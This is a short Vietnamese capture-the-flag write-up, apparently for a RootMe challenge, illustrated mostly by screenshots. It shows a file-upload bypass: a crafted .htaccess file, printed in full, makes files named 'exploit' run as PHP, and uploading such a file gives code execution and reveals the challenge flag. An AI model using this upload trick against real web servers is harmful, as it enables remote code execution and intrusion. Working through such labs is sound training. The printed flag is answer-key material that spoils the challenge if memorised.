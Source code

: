 ![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/e613b428-46df-49cb-a389-7b1cd0a78b67)

thử upload 
![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/f629c170-8b50-4e9f-958b-9ccc74977c03)

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/ebdb55f3-ce0f-4f20-ba9f-f0413591db13)

Ta đổi nội dung thành như sau:
```
Options All +Indexes



<IfModule mod_php7.c>

    php_flag engine on

</IfModule>



<FilesMatch "exploit">

  SetHandler  application/x-httpd-php

</FilesMatch>
```
![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/bfeee210-7afd-423f-936a-aaf66c68b659)


Các file có tên "exploit" sẽ được thực thi như là file ".php".

Sau đó tải lên tệp "exploit"

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/072c01b1-072f-4757-a1e1-98daf010fe64)

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/68eb6412-f9a6-423d-9322-74ca499c4ed7)

=> ht@cc3ss2RCE4th%w1n
